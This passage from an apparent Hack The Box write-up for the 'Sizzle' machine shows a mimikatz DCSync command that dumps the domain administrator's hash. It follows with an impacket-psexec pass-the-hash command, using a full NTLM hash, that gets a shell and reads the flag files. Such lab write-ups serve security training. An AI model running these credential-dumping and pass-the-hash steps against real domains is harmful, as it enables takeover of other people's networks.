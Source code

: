 ![image44](../resources/8e798a871beb46cabe2f8545841a5188.png)

or mimikatz:

```bash
mimikatz lsadump::dcsync /user:administrator /domain:htb.local /dc:sizzle

```
- Now use either smbexec.py , psexec.py or wmiexec.py to get a shell:

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:f6b7160bfc91823792e0ac3a162c9267 htb.local/administrator@10.129.7.164

```

![image45](../resources/8bf3be1db1724c55ac52b52f6d0e5312.png)


```bash
type user.txt
type root.txt

```